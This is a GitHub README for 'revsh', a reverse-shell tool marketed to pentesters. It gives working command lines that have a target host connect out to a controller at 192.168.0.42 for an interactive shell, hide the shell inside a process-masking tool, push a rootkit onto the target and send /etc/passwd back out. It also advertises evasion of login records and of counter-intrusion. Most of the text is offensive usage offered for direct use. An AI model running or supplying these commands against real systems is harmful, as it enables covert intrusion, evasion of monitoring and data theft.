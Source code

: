 # revsh #

_revsh_ is a tool for establishing a [reverse shell](http://en.wikipedia.org/wiki/Reverse_shell) with [terminal](http://en.wikipedia.org/wiki/Computer_terminal) support.

**What is a "reverse shell"?**

A reverse shell is a network connection that grants [shell](http://en.wikipedia.org/wiki/Shell_%28computing%29) access to a remote host. As opposed to other remote login tools such as [telnet](http://en.wikipedia.org/wiki/Telnet) and [ssh](http://en.wikipedia.org/wiki/Secure_Shell), a reverse shell is initiated by the remote host. This technique of connecting outbound from the remote network allows for circumvention of firewalls that are configured to block inbound connections only. 

**What is a "bind shell"?**

A [bind shell](http://en.wikipedia.org/wiki/Shellcode#Remote) is a shell that is served from a normal forward network connection. _revsh_ supports both reverse and bind shells. To invoke a bind shell, either call _revsh_ with the _-b_ flag on both ends of the connection, or call the binary as 'bindsh'.


**Can't I just use [netcat](http://en.wikipedia.org/wiki/Netcat)?**

There are [many techniques](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) for establishing a reverse shell, but these methods don't provide terminal support. _revsh_ allows for a reverse shell whose connection is mediated by a [pseudo-terminal](http://en.wikipedia.org/wiki/Pseudoterminal), and thus allows for features such as:

 * [job control](http://en.wikipedia.org/wiki/Job_control)
 * [control character processing](http://en.wikipedia.org/wiki/Control_character) (e.g [Ctrl-C](http://en.wikipedia.org/wiki/Control-C))
 * [auto-completion](http://en.wikipedia.org/wiki/Auto-completion)
 * support for programs requiring a [controlling tty](https://github.com/emptymonkey/ctty) (e.g. [sudo](http://en.wikipedia.org/wiki/Sudo))
 * [processing of window re-size events](http://linux.die.net/man/4/tty_ioctl)

In addition, _revsh_ also offers the following features:
 * [UTF-8](http://en.wikipedia.org/wiki/UTF-8) support.
 * Circumvents [utmp / wtmp](http://en.wikipedia.org/wiki/Utmp). (No login recorded.)
 * Processes [rc file](http://en.wikipedia.org/wiki/Run_commands) commands upon login for easy scripting.
 * [OpenSSL](https://www.openssl.org/) encryption with key based authentication baked into the binary.
 * Anonymous [Diffie-Hellman](http://en.wikipedia.org/wiki/Diffie%E2%80%93Hellman_key_exchange) encryption upon request.
 * Ephemeral Diffie-Hellman encryption as default. (Now with more [Perfect Forward Secrecy](http://en.wikipedia.org/wiki/Forward_secrecy)!)
 * [Cert pinning](http://en.wikipedia.org/wiki/Transport_Layer_Security#Certificate_pinning) for protection against [sinkholes](http://en.wikipedia.org/wiki/DNS_sinkhole) and [mitm](http://en.wikipedia.org/wiki/Man-in-the-middle_attack) counter-intrusion.
 * Connection timeout for remote process self-termination.
 * Randomized retry timers for non-predictable auto-reconnection.
 * Netcat style non-interactive data brokering for file transfer.

_revsh_ is intended as a supplementary tool for a [pentester's](http://en.wikipedia.org/wiki/Pentester) toolkit that provides the full set of terminal features across an encrypted tunnel. All together in a small (~50k) easy to use binary.

**Where can I use _revsh_?**

_revsh_ was developed on x86_64 Linux. Here is a brief list of Arch / OS combinations that it has been used on:
 * x86_64 Linux
 * i686 Linux
 * amd64 FreeBSD

(If you have successfully used revsh on another platform, drop me a line and I'll add it to the list.)

## Usage ##

	empty@monkey:~$ revsh -h
	
	usage:    revsh [-c [-a] [-d KEYS_DIR] [-f RC_FILE]] [-s SHELL] [-t SEC] [-r SEC1[,SEC2]] [-b [-k]] [-n] [-v] [ADDRESS:PORT]

	  -c              Run in command and control mode.                 (Default is target mode.)
	  -a              Enable Anonymous Diffie-Hellman mode.            (Default is "!ADH:DHE-RSA-AES256-SHA".)
	  -d KEYS_DIR     Reference the keys in an alternate directory.    (Default is "~/.revsh/keys/".)
	  -f RC_FILE      Reference an alternate rc file.                  (Default is "~/.revsh/rc".)
	  -s SHELL        Invoke SHELL as the remote shell.                (Default is "/bin/bash".)
	  -t SEC          Set the connection timeout to SEC seconds.       (Default is "3600".)
	  -r SEC1,SEC2    Set the retry time to be SEC1 seconds, or        (Default is "600,1200".)
	                  to be random in the range from SEC1 to SEC2.
	  -b              Start in bind shell mode.                        (Default is reverse shell mode.)
	  -k              Start the bind shell in keep-alive mode.         (Ignored in reverse shell mode.)
	  -n              Non-interactive netcat style data broker.        (Default is interactive w/remote tty.)
	                  No tty. Useful for copying files.
	  -v              Verbose output.
	  -h              Print this help.
	  ADDRESS:PORT    The address and port of the listening socket.    (Default is "127.0.0.1:9999".)

	  Notes:
	      * The -b flag must be invoked on both the control and target hosts to enable bind shell mode.
	      * Bind shell mode can also be enabled by invoking the binary as 'bindsh' instead of 'revsh'.
	      * Verbose output may mix with data if -v is used together with -n.

	  Interactive example:
	      local controller host:    revsh -c 192.168.0.42:443
	      remote target host:       revsh 192.168.0.42:443

	  Non-interactive example:
	      local controller host:    cat ~/bin/rootkit | revsh -n -c 192.168.0.42:443
	      remote target host:       revsh 192.168.0.42:443 > ./totally_not_a_rootkit


## Example ##

First, setup the local host to be the command and control host (e.g. "monkey"):

	empty@monkey:~$ revsh -c 192.168.0.42:9999

Then connect out from the remote target host (e.g. "kitty"):

	target@kitty:~$ ./revsh 192.168.0.42:9999

We will now find a shell waiting for us back at the control host:

	Listening on 192.168.0.42:9999...  Connected!
	 Remote fingerprint expected: 09a348e737b96961d7ff9d55f958e771828f839e
	 Remote fingerprint received: 09a348e737b96961d7ff9d55f958e771828f839e
	Initializing... Done!
	
	################################
	# hostname: kitty
	# ip address: 192.168.0.123
	# real user: target
	# effective user: target
	################################
	target@kitty:/$ ls -l /etc/passwd
	-rw-r--r-- 1 root root 1538 Jul 18 22:50 /etc/passwd
	target@kitty:/$

Note, if you configured the binary at build time to change the IP:PORT address to 192.168.0.42:9999, then the above example becomes even cleaner:

	empty@monkey:~$ revsh -c
	target@kitty:~$ ./revsh

For a covert reverse shell, _revsh_ can be invoked from within [_mimic_](https://github.com/emptymonkey/mimic) on the target host:

	empty@monkey:~$ revsh -c
	target@kitty:~$ ./mimic -q -e './revsh -s "./mimic -e /bin/bash"'

For netcat style data transfer (with all of the crypto benefits of _revsh_) invoke _revsh_ with the -n switch. This is useful for moving tools on to the target host:

	empty@monkey:~$ cat rootkit.tar | ./revsh -c -n
	target@kitty:~$ ./revsh >./totally_not_a_rootkit.tar
	

Or for moving data out from the target host:

	empty@monkey:~$ revsh -c
	target@kitty:~$ cat /etc/passwd | ./revsh -n


## Installation ##

	git clone https://github.com/emptymonkey/revsh.git
	cd revsh
	vi config.h        # Set up new defaults that fit your situation.
	make               # This *can* take a very long time, though it usually doesn't.
	make install
	cd ~/.revsh
	vi rc              # Add your favorite startup commands to really customize the feel of your remote shell.
	./revsh -h

## A Quick Note on Ethics ##

I write and release these tools with the intention of educating the larger [IT](http://en.wikipedia.org/wiki/Information_technology) community and empowering legitimate pentesters. If I can write these tools in my spare time, then rest assured that the dedicated malicious actors have already developed versions of their own.

